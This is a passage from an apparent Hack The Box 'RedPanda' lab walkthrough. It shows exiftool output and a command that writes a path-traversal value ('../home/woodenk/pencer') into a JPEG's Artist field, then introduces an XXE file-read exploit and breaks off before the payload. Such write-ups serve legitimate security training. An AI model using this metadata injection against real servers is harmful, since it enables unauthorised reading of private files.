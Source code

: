 ```sh
Y Resolution                    : 72
Resolution Unit                 : inches
Artist                          : woodenk
Y Cb Cr Positioning             : Centered
Image Width                     : 1024
Image Height                    : 1280
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1024x1280
Megapixels                      : 1.3

┌──(root㉿kali)-[~/htb/redpanda]
└─# exiftool smooch.jpg -Artist='../home/woodenk/pencer'
    1 image files updated

┌──(root㉿kali)-[~/htb/redpanda]
└─# exiftool smooch.jpg                                 
ExifTool Version Number         : 12.42
File Name                       : smooch.jpg
Directory                       : .
File Size                       : 196 kB
File Modification Date/Time     : 2022:07:16 16:51:04+01:00
File Access Date/Time           : 2022:07:16 16:51:04+01:00
File Inode Change Date/Time     : 2022:07:16 16:51:04+01:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Artist                          : ../home/woodenk/pencer
Y Cb Cr Positioning             : Centered
Image Width                     : 1024
Image Height                    : 1280
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1024x1280
Megapixels                      : 1.3
```

I've changed Artist to a path to a file called pencer in the woodenk folder. We know from the script we've just looked at that it will take that and add _creds.xml on to the end.

Next we need to create the xml file that it will target. The XXE exploit is based on HackTricks [here](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file) which shows you how to read a file:
